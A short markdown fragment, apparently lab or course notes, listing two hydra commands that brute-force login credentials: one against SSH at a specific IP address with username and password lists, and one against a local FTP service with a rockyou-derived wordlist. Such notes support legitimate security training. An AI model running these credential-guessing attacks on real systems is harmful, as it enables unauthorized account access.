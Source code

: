 ## SSH Attack
```shell-session
$ hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```
## FTP Brute Forcing
```shell-session
 hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```